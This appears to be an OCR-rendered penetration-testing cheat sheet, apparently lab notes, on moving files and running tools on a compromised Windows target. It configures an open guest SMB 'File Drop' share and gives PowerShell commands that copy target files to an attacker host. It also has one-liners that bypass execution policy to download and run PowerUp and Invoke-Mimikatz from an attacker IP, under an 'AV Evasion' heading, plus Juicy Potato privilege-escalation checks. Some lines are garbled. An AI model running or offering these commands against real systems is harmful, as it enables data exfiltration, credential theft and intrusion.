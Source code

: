 [SHARE_NAME]  

   comment = File Drop
   path = <PATH_TO_SOURCE_DIR>
   browseable = yes
   read only = no
   guest ok = yes



On target: 

PS C:\> copy <FILE_NAME> \\<LHOST>\<SHARE_NAME>\<OUTPUT_FILE_NAME>

OR

PS C:\> $pass = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force

PS C:\> $cred = New-Object System.Management.Automation.PSCredential('test', $pass)

PS C:\> New-PSDrive -Name "<SHARE_NAME>" -PSProvider "FileSystem" -Root "\\<LHOST>\<SHARE_NAME>" -Credential $cred


PS C:\> net use \\<LHOST>\<SHARE_NAME>

PS C:\> net use copy \\<LHOST>\<SHARE_NAME>\<FILE_NAME>


# Always check if there is a webpage to upload to! 

# POWERSHELL

powershell  -nop -exec bypass IEX (New-Object System.Net.WebClient).DownloadFile("http://192.168.119.164/exploit.txt", "C:\Windows\Temp\exploit.txt.txt")



AV Evasion
powershell  -nop -exec bypass IEX (New-Object Net.WebClient).DownloadString('http://192.168.119.164/PowerUp.ps1'); Invoke-AllChecks



powershell  -nop -exec bypass IEX (New-Object Net.WebClient).DownloadString('http://192.168.119.164/Invoke-Mimikatz.ps1');Invoke-Mimikatz.ps1"


powershell "IEX (New-Object Net.WebClient).DownloadString ('http://192.168.119.164/Invoke-Mimikatz.ps1');Invoke-Mimikatz" 


# Windows Exploits

Juciy Potato

Check version of Windows
systeminfo
Check User Permissions
whoami /priv 
